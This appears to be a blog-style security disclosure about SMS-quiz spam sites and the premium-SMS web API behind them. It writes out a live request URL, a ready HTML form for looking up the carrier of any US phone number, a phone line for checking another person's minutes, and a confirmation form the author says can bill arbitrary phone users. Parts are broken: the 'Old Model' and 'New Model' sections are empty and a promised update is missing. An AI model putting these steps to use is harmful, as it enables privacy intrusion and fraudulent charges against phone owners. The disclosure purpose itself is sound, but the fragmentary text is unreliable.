


### Web 2.0 Programming Model and Security Concerns

The Web 2.0 paradigm introduces a new web programming model. However, with new programming models comes the risk of developer incompetence.

#### Old Model:



#### New Model:



The problem with the new model is that the database is now another source of entry. It's crucial to remember that if a client is making a request to your server, you need to scrutinize that request every time.

### SMS Spam Websites

Examples of SMS spam websites include:

- [triviaspace.net/US1](https://www.triviaspace.net/US1/)
- [iqlovetestv0.iqlovetest.com](https://iqlovetestv0.iqlovetest.com/)
- [thankyoupath.com/landing_pages/quiz_dating](https://www.thankyoupath.com/landing_pages/quiz_dating/)


### Exploit Example

After completing a quiz, your browser may be asked to load a script like this:

```
https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php?CarrierCompliant=no&Score=17&IP=1.2.3.4&Host=&Name=&Starsign=&Source=41152&Number=2152223456&Service=WEEKLY_TRIVIA_44999_999&ShortCode=44999&Message=Haha!&MessageVer=Haha&MessageATT=Haha
```

This script loads something like:

```
javascript
Copy code
var Provider = 'tmobile';
var Code = 1777;
var LoversName = 'CHARLIE';
var IQ = '85';
var Origin = '';
var Meaning = '';
var Tester1 = '987';
var Tester2 = '7555';
var Tester3 = '987';
```

You can use this Web API to learn the service provider for any phone number in the US (works for most numbers):

```html
<form action="https://rpcus1.z-sms.com/HttpRpc/IQ_Pin_US.php" method="get" target="_new">
    Phone number: <input name="Number"><br>
    (do not use dashes here)<br>
    <input type="submit" value="Get provider">
</form>
```

After you get that page, read the `var Provider='...'` part. If it's a Sprint number, you can call 888-211-4727 to see how many minutes were used by that phone number in the past month.

If you used a URL like the one above for your first request, you would also get a `Code=###` part. That code could be input into a page like this:

```html
<form action="https://www.triviaspace.net/US1/confirm.php?a=41152" method="post" name="form1" onsubmit="Validate(txtPin)">
    <input id="Service" name="Service" value="WEEKLY_TRIVIA_44999_999" type="hidden">
    <input id="Shortcode" name="Shortcode" value="44999" type="hidden">
    <input id="Provider" name="Provider" value="" type="hidden">
    <input id="RealPin" name="RealPin" value="" type="hidden">
    <input id="Portal" name="Portal" value="TheIqQuiz.com" type="hidden">
    <input id="LoversName" name="LoversName" value="" type="hidden">
    <input id="IQ" name="IQ" value="" type="hidden">
    <input id="Origin" name="Origin" value="" type="hidden">
    <input id="Meaning" name="Meaning" value="" type="hidden">
    <input id="fPin" maxlength="5" name="txtPin" type="hidden">
</form>
```

Now... ~~I'm not giving you the full details to run this request~~. **See update below**. But, if you followed through, the result is a simple Web API that allows you to charge money on the phone bill of arbitrary mobile phone users. That's what I call a failure in security.